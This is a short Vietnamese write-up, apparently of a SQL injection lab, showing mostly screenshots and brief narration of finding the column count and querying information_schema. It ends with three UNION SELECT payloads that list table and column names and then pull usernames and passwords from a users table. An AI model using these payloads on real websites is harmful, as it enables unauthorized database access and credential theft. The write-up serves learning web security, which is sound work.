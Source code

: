 ![image](https://github.com/user-attachments/assets/57881ab8-7292-4492-9fd5-5e7e8c7a9274)

Như ở challenge này thì dbms không phải là oracle. Và ta cũng chưa biết được nó query xuống bao nhiêu cột trong db vì thế nên ta sẽ tiến hành tìm cột trước.

![image](https://github.com/user-attachments/assets/26e58785-ffe3-4e05-bf93-54b23b8b05b1)

![image](https://github.com/user-attachments/assets/a235d67a-861f-4ebd-9497-8cad47a42511)

Vì thế ta biết được trong query có 2 cột.

Tiếp theo thì dùng schema table để lấy thông tin thôi.

![image](https://github.com/user-attachments/assets/1fd4da9d-3307-40f6-bb38-c33c4d2dc1d2)

Vậy là đã có thông tin.

![image](https://github.com/user-attachments/assets/c756e8d5-845c-4593-a31d-381772473c65)

Tiến hành truy xuất thông tin ra và ta thấy được rằng đây là tên bảng

![image](https://github.com/user-attachments/assets/cc9db864-40b4-4d30-be73-7d7b0747d443)

![image](https://github.com/user-attachments/assets/5af764b6-3b75-4d2e-9b6c-82b940f2648f)

![image](https://github.com/user-attachments/assets/029578b7-879e-4bab-a5b6-c9a624d55929)

Vậy là thành công.

Payload:

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```

Thì mục tiêu cũng chả có gì, thì cứ theo trình tự thôi `số lượng cột -> tên bảng -> tên cột` là sẽ xong
